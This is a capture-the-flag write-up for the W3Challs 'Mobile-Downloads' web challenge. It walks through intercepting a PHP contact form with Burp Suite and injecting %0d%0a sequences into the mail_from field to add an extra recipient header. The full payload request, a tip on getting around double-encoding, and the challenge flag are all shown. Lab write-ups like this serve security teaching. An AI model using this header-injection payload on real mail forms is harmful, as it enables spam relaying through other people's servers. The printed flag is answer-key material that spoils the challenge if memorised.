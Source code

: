 # Mobile-Downloads

1. First, lets go through the website.
2. Then, we read the Hint : Spam! The goal is just to send an email to any unexpected recipient, not to become admin. You'll get the flag if a correct attack payload is detected, no bot will visit the page and you'll not get emails if your attack works.
3. So, the goal now is to send an email to anyone except for "admin@mobile-downloads.hax.w3challs.com"
4. Here is the [source code](http://mobile-downloads.hax.w3challs.com/mail_src.php) and we are able to see that all we have to do is something like [CRLF injection](https://owasp.org/www-community/vulnerabilities/CRLF_Injection) and get the flag.
5. The main question now is how we send the request. We have to use burp suite to help us. I used burp suite and firefox to complete the challenge.
6. After we connect on the proxy on the burp suite, we first send some information. As me, I just send "123" of all three blank and get the feedback : 
    ```
    POST /?contact= HTTP/1.1
    Host: mobile-downloads.hax.w3challs.com
    User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:73.0) Gecko/20100101 Firefox/73.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
    Accept-Language: zh-TW,zh;q=0.8,en-US;q=0.5,en;q=0.3
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 47
    Origin: http://mobile-downloads.hax.w3challs.com
    Connection: close
    Referer: http://mobile-downloads.hax.w3challs.com/?contact=
    Upgrade-Insecure-Requests: 1

    mail_from=123&mail_subject=123&mail_content=123
    ```
    Now, we have to use CRLF injection to attack the place in the source code : 
    ```
    $headers = 'From: '.$from."\r\n".
                      'Reply-To: '.$from."\r\n".
                      'X-Mailer: PHP/'.phpversion();
    ```
    So, as we already know, we have to use the keywords "%0d%0a" to make it transfer into "\r\n". Here is the payload : 
    ```
    POST /?contact= HTTP/1.1
    Host: mobile-downloads.hax.w3challs.com
    User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:73.0) Gecko/20100101 Firefox/73.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
    Accept-Language: zh-TW,zh;q=0.8,en-US;q=0.5,en;q=0.3
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 47
    Origin: http://mobile-downloads.hax.w3challs.com
    Connection: close
    Referer: http://mobile-downloads.hax.w3challs.com/?contact=
    Upgrade-Insecure-Requests: 1

    mail_from=123%0d%0ato:456&mail_subject=123&mail_content=123
    ```
    And click forward then you are able to see the flag.
7. Here is some tips, you can't send the data directly like "123%0d%0ato:456". If you use burp suite to check the data, you will find out that the data is encoded and become "123%250d%250ato%3A456" but we want to send "%0d%0a" so we have to use burp suite to change the value. Or you can find words that are able to be transfer into the payload as same as I did and you can still pass the challenge.
8. Here is the flag : W3C{3v1l_Sp4m_1s_3v1l}
